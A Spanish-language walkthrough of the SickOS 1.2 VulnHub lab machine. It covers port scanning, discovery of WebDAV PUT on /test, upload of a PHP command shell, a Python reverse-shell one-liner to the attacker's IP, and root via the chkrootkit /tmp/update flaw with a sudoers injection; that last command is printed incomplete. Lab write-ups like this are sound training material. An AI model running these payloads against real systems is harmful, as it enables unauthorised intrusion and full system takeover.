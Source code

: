 # SickOS1.2
Desarrollo del CTF SickOS1.2
Download: https://www.vulnhub.com/entry/sickos-12,144/

## Escaneo de Puertos

### 1. Escaneamos todos los puertos TCP

```
nmap -n -P0 -p- -sC -sV -O -T5 -oA full 192.168.78.142
Nmap scan report for 192.168.78.142
Host is up (0.00090s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
|   2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_  256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open  http    lighttpd 1.4.28
|_http-server-header: lighttpd/1.4.28
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:E5:F7:14 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11, Linux 3.16 - 4.6, Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


## Enumeración de servicios.

- Sólo encontramos una carpeta llamada /test/
```
root@kali:~/SICKOS# gobuster dir -u http://192.168.78.142/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.78.142/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/02/28 18:41:01 Starting gobuster
===============================================================
/test (Status: 301)
/%7Echeckout%7E (Status: 403)
===============================================================
2021/02/28 18:41:33 Finished
===============================================================
```

<img src="https://github.com/El-Palomo/SickOS1.2/blob/main/sickos1.jpg" width="80%"></img>

- Descargué la imagen y busque cadenas importantes. Sin éxito.
- Probé credenciales básicas sobre SSH. Sin éxito.
- Busqué carpetas y archivos con un listado más grande. Sin éxito.
- La búsqueda con NIKTO no arrojaba nada importante: archivo robot.txt, comentarios en html.
- Lo único que se tiene es la carpeta /test/.

## Identificando Vulnerabilidad

1. Si revisamos con calma identificamos que los métodos soportados en la carpeta /test es diferente al de la carpeta raiz.
Moraleja: Se debe buscar los métodos en cada carpeta

```
root@kali:~/SICKOS# nmap -n -P0 -p 80 --script http-methods.nse 192.168.78.142
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-28 18:54 EST
Nmap scan report for 192.168.78.142
Host is up (0.00026s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 00:0C:29:E5:F7:14 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 15.44 seconds
root@kali:~/SICKOS# nmap -n -P0 -p 80 --script http-methods.nse --script-args http-methods.url-path='/test' 192.168.78.142
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-28 18:55 EST
Nmap scan report for 192.168.78.142
Host is up (0.00031s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-methods: 
|   Supported Methods: PROPFIND DELETE MKCOL PUT MOVE COPY PROPPATCH LOCK UNLOCK GET HEAD POST OPTIONS
|   Potentially risky methods: PROPFIND DELETE MKCOL PUT MOVE COPY PROPPATCH LOCK UNLOCK
|_  Path tested: /test
MAC Address: 00:0C:29:E5:F7:14 (VMware)
```
<img src="https://github.com/El-Palomo/SickOS1.2/blob/main/sickos2.jpg" width="80%"></img>

- Otra manera de revisar los métodos soportados es:

```
root@kali:~/SICKOS# curl -v -X OPTIONS http://192.168.78.142/test/
*   Trying 192.168.78.142:80...
* Connected to 192.168.78.142 (192.168.78.142) port 80 (#0)
> OPTIONS /test/ HTTP/1.1
> Host: 192.168.78.142
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< DAV: 1,2
< MS-Author-Via: DAV
< Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
< Allow: OPTIONS, GET, HEAD, POST
< Content-Length: 0
< Date: Mon, 01 Mar 2021 01:27:29 GMT
< Server: lighttpd/1.4.28
```
<img src="https://github.com/El-Palomo/SickOS1.2/blob/main/sickos3.jpg" width="80%"></img>


## Explotando la Vulnerabilidad

- A través del método PUT podemos cargar archivos sin requerir credenciales de acceso.
- A través de BURP SUITE me parece mas rápido y sencillo:

```
PUT /test/cmd.php HTTP/1.1
Host: 192.168.78.142
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 30

<?php system($_GET["cmd"]); ?>
```

<img src="https://github.com/El-Palomo/SickOS1.2/blob/main/sickos4.jpg" width="80%"></img>

<img src="https://github.com/El-Palomo/SickOS1.2/blob/main/sickos5.jpg" width="80%"></img>

- A través de este mecanismo podemos obtener una conexión reversa:

```
/* En el navegador colocamos lo siguiente:*/

http://192.168.78.142/test/test7.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.78.131%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27

/*Esto es lo que se coloca después de CMD*/

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

ATTACKING-IP: Colocar la IP de KALI
```

- Importante se está utilizando el puerto 443 porque a través de otros puertos no convencionales no se establecia la conexión

<img src="https://github.com/El-Palomo/SickOS1.2/blob/main/sickos6.jpg" width="80%"></img>

## Elevar Privilegios

- Toca probar todas las técnicas conocidas: sudo, suid, archivos de configuración, version de kernel, etc. Sin éxito.
- El proceso de elevación de privilegios estaba en el proceso CRON.

### Buscar los archivos que CRON ejecuta:

- En CRON.DAILY existe un archivo que resalta: CHKROOTKIT.
- CHKROOTKIT es una tool que sirve para identificar ROOTKIS. Que un CTF tenga esta tool, es super raro.

```
www-data@ubuntu:/etc$ ls -laR /etc/cron*
ls -laR /etc/cron*
-rw-r--r-- 1 root root  722 Jun 19  2012 /etc/crontab

ls: cannot open directory /etc/cron.d: Permission denied
/etc/cron.daily:
total 72
drwxr-xr-x  2 root root  4096 Apr 12  2016 .
drwxr-xr-x 84 root root  4096 Feb 27 15:17 ..
-rw-r--r--  1 root root   102 Jun 19  2012 .placeholder
-rwxr-xr-x  1 root root 15399 Nov 15  2013 apt
-rwxr-xr-x  1 root root   314 Apr 18  2013 aptitude
-rwxr-xr-x  1 root root   502 Mar 31  2012 bsdmainutils
-rwxr-xr-x  1 root root  2032 Jun  4  2014 chkrootkit
-rwxr-xr-x  1 root root   256 Oct 14  2013 dpkg
-rwxr-xr-x  1 root root   338 Dec 20  2011 lighttpd
-rwxr-xr-x  1 root root   372 Oct  4  2011 logrotate
-rwxr-xr-x  1 root root  1365 Dec 28  2012 man-db
-rwxr-xr-x  1 root root   606 Aug 17  2011 mlocate
-rwxr-xr-x  1 root root   249 Sep 12  2012 passwd
-rwxr-xr-x  1 root root  2417 Jul  1  2011 popularity-contest
-rwxr-xr-x  1 root root  2947 Jun 19  2012 standard

/etc/cron.hourly:
total 12
drwxr-xr-x  2 root root 4096 Mar 30  2016 .
drwxr-xr-x 84 root root 4096 Feb 27 15:17 ..
-rw-r--r--  1 root root  102 Jun 19  2012 .placeholder

/etc/cron.monthly:
total 12
drwxr-xr-x  2 root root 4096 Mar 30  2016 .
drwxr-xr-x 84 root root 4096 Feb 27 15:17 ..
-rw-r--r--  1 root root  102 Jun 19  2012 .placeholder

/etc/cron.weekly:
total 20
drwxr-xr-x  2 root root 4096 Mar 30  2016 .
drwxr-xr-x 84 root root 4096 Feb 27 15:17 ..
-rw-r--r--  1 root root  102 Jun 19  2012 .placeholder
-rwxr-xr-x  1 root root  730 Sep 13  2013 apt-xapian-index
-rwxr-xr-x  1 root root  907 Dec 28  2012 man-db
```

- Revisar la versión de CHKROOT instalado

```
www-data@ubuntu:/etc$ dpkg -l | grep chkrootkit
dpkg -l | grep chkrootkit
rc  chkrootkit                      0.49-4ubuntu1.1                   rootkit detector
```

- Buscar si la versión instalada cuenta con alguna vulnerabilidad. En EXPLOIT-DB nos indican la vulnerabilidad: https://www.exploit-db.com/exploits/33899

<img src="https://github.com/El-Palomo/SickOS1.2/blob/main/sickos7.jpg" width="80%"></img>

- Debemos leer la documentación de la vulnerabilidad:

```
Steps to reproduce:

- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
- Run chkrootkit (as uid 0)

Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file.

If an attacker knows you are periodically running chkrootkit (like in
cron.daily) and has write access to /tmp (not mounted noexec), he may
easily take advantage of this.

```

- En resumen dice: colocar un archivo llamado /tmp/update con privilegios de ejecución y CRON lo ejecutará con privilegios de ROOT.

```
www-data@ubuntu:/tmp$ echo 'echo "www-data ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers'
www-data@ubuntu:/tmp$ chmod +x update

www-data@ubuntu:/tmp$ sudo su
sudo su
root@ubuntu:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)  
```

<img src="https://github.com/El-Palomo/SickOS1.2/blob/main/sickos8.jpg" width="80%"></img>
